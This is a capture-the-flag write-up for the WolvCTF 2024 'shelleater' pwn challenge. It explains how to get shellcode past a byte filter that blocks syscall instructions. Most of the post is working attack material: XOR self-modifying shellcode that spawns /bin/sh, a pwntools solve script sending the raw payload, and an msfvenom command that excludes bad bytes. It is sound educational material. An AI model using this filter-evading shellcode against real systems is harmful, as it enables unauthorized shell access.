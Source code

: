 +++
title = 'WolvCTF 2024 - pwn/shelleater'
date = 2024-03-18T15:34:02-04:00
draft = false
+++

This was a fun challenge involving shellcode. I solved it the hard way by writing my own shellcode, but I saw two simpler ways to solve it after the CTF were over so I will briefly discuss those at the end.

We are given a file and a netcat port. Taking a look at the file, all protections are off.

```
checksec --file=shelleater
[*] '/home/df00/Desktop/shelleater'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Looking at the dissambly, the binary will exectute your shellcode, but not if it contains 0x80 or 0x050f.

```
void entry(void)

{
  long inc;
  ulong uVar1;
  ulong local_64 [12];
  
  syscall();
  syscall();
  inc = 0;
  do {
    if ((*(ulong *)((long)local_64 + inc) & 0xffff) == 0x50f) goto read_bytes.fail;
    inc = inc + 1;
  } while (inc != 0x60);
  inc = 0;
  while (uVar1 = *(ulong *)((long)local_64 + inc) & 0xff, uVar1 != 0x80) {
    inc = inc + 1;
    if (inc == 0x62) {
                    /* WARNING: Could not recover jumptable at 0x00401086. Too many branches */
                    /* WARNING: Treating indirect jump as call */
      (*(code *)local_64)(0x62,uVar1,0x80);
      return;
    }
  }
read_bytes.fail:
  syscall();
  syscall();
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

`int 0x80` is used for syscalls, and 0x050f is the assembly for syscall. Let's take a look at really simple shellcode:

```
.global _start
_start:
.intel_syntax noprefix

        mov rax, 59
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0

        syscall
binsh:
        .string "/bin/sh"

```

We want to call `execve("/bin/sh", 0, 0)`. Looking at syscall table `https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/`, we need 59 in rax and "/bin/sh" in rdi. rsi and rdx are both zero. When we assemble this, we can that our syscal in assembly is 0x0f05 which we cannot use.

```
objdump -M intel -d shellcode-elf

shellcode-elf:     file format elf64-x86-64


Disassembly of section .text:

0000000000401000 <_start>:
  401000:	48 c7 c0 3b 00 00 00 	mov    rax,0x3b
  401007:	48 8d 3d 10 00 00 00 	lea    rdi,[rip+0x10]        # 40101e <binsh>
  40100e:	48 c7 c6 00 00 00 00 	mov    rsi,0x0
  401015:	48 c7 c2 00 00 00 00 	mov    rdx,0x0
  40101c:	0f 05                	syscall 

000000000040101e <binsh>:
  40101e:	2f                   	(bad)  
  40101f:	62                   	(bad)  
  401020:	69                   	.byte 0x69
  401021:	6e                   	outs   dx,BYTE PTR ds:[rsi]
  401022:	2f                   	(bad)  
  401023:	73 68                	jae    40108d <binsh+0x6f>

```

We can make the code modify itself before execution. We can do many different ways for example using add or sub, but I used xor.

```
.global _start
_start:
.intel_syntax noprefix

        xor word ptr [rip+sys], 0x1111
        mov rax, 59
        lea rdi, [rip+binsh]
        mov rsi, 0
        mov rdx, 0
sys:
        .byte 0x1e
        .byte 0x14

binsh:
        .string "/bin/sh"
~                         
```

At label sys, we write 2 bytes. If we had written 0x0f05, at runtime this would perform a syscall. Instead, what I did was xor 0x0f05 with 0x1111 which is 0x1e14. Then we write 0x1e14 at sys, and xor sys with 0x1111 at the start.

The final solve script:

```
from pwn import *

target = remote('shelleater.wolvctf.io', 1337)

target.recv()

payload = "\x66\x81\x35\x1c\x00\x00\x00\x11\x11\x48\xc7\xc0\x3b\x00\x00\x00\x48\x8d\x3d\x10\x00\x00\x00\x48\xc7\xc6\x00\x00\x00\x00\x48\xc7\xc2\x00\x00\x00\x00\x1e\x14\x2f\x62\x69\x6e\x2f\x73\x68\x00"

target.sendline(payload)

target.interactive()

```

And we get our flag:
`wctf{1_s3ash3ll_1_3at_1t}`

### Other solutions

Other solutions I saw written about after the CTF that were much simpler:

1. msfvenom will generate shellcode for you, and you can specify which bytes to exclude:
`msfvenom -p linux/x64/exec -f c CMD=bash -b '\x80\x0f'`

2. Not sure if this is an intended way to solve this challenge, but the buffer for our shellcode is 100 bytes, and the check for 0x80 only checks the first 98 bytes. Looking online we can find lots of examples of shellcode that end in 0x80 and can pad the shellcode to the end of our buffer.


